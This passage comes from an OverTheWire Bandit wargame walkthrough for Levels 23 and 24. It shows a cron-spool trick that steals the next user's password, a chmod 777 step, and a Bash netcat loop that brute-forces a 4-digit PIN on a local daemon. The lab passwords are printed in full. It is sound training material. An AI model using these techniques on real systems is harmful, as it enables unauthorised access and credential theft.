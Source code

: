 We write the content using `nano` and make the file executable. and test it with "bandit23"

```
bandit23@bandit:/tmp/tmp.eCxpiGDiOE$ nano myscript.sh 
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/tmp.eCxpiGDiOE$ chmod +x myscript.sh
bandit23@bandit:/tmp/tmp.eCxpiGDiOE$ ./myscript.sh 
bandit23@bandit:/tmp/tmp.eCxpiGDiOE$ cat extracted_password.txt 
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```

It seems to work so we just have to adjust the variable "\$myname" and copying it to "/var/spool/$myname/foo" where "\$myname" is bandit24. Cron takes a couple of minutes to work so do not expect immediate results. 

Also you can either remove extracted_password.txt, either set its permissions to 777 so bandit24 is allowed to write in. Same goes on for the directory you are in.

```
bandit23@bandit:/tmp/tmp.eCxpiGDiOE$ chmod 777 $(pwd)
bandit23@bandit:/tmp/tmp.eCxpiGDiOE$ ls
extracted_password.txt  myscript.sh
bandit23@bandit:/tmp/tmp.eCxpiGDiOE$ cat extracted_password_bandit24.txt 
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

This is a good level to get around permissions

## Level 24

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

Looks like it is time to create a small Bash bruteforcer for this use-case. 

```Bash
#!/bin/bash 
for i in $(seq 0 9999);
do
    out=$(printf "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 %04d\n" $i | nc -q 0 localhost 30002)
    if ! [[ $out =~ "Wrong!" ]]; then
        echo "$out" 
        break
    fi  
done

```

There may be other way to bruteforce the thing as I am initiating a new connection each time but I am more focused on small develoment time rather than execution time. So we use `nano` to paste the code, and execute it. 
